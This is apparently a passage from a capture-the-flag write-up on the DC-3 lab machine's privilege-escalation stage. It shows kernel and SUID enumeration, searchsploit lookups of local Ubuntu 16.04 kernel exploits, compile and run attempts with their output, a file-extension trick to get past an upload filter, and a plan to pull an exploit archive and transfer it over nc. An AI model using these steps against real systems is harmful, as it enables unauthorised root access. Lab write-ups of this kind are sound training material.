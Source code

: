 Nothing immediately stands out from `$ find / -perm /4000 2>/dev/null`.  I checked `/home` and found a user `dc3` with sudoer history, but couldn't access anything. We can't run `sudo -l`. Maybe the kernel?

```
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04 LTS
Release:	16.04
Codename:	xenial
$ uname -a
Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```
We get 3 specific results for `searchsploit 4.4.0-21 ubuntu`, though two look nearly identical. I uploaded chocobo_root.c as a.txt to get past the template file filter. Sadly, the linux AF_PACKET race condition exploit for CVE-2016-8655 did not work:
```
$ gcc chocobo_root.c -o chocobo_root -lpthread
$ ./chocobo_root
linux AF_PACKET race condition exploit by rebel
[.] starting
[.] checking hardware
[-] system has less than 2 processor cores
```
Then, following `/usr/share/exploitdb/exploits/linux_x86-64/local/40049.c` I uploaded decr.c and pwn.c as decr.txt and pwn.txt respectively. In my shell, I `mv` them back to `.c` files.

```
$ mv decr.txt decr.c
$ mv pwn.txt pwn.c
$ gcc decr.c -m32 -O2 -o decr
$ gcc pwn.c -O2 -o pwn
pwn.c: In function 'privesc':
pwn.c:26:42: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
         commit_creds(prepare_kernel_cred((uint64_t)NULL));
                                          ^
$ ./decr
netfilter target_offset Ubuntu 16.04 4.4.0-21-generic exploit by vnik
[-] No ip_tables module found! Quitting...
$ insmod /lib/modules/4.4.0-21-generic/kernel/net/ipv4/netfilter/ip_tables.ko
insmod: ERROR: could not insert module ip_tables.ko: Operation not permitted
```

Hmmm. Well, looks like we are probably out of luck on this. If anyone did manage to follow this direction and succed, please let me know! Since 

I think it may be time to widen our search. 
```
$ searchsploit Ubuntu 4.4.
...
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD)  | exploits/linux/local/39772.txt
...
```
This looks promising, and links us to https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip. Because I don't want to deal with uploading through templates anymore (though this would set off fewer alarms), I'm going to send the `exploit.tar` over `nc`. You could also use python's simple HTTP server.
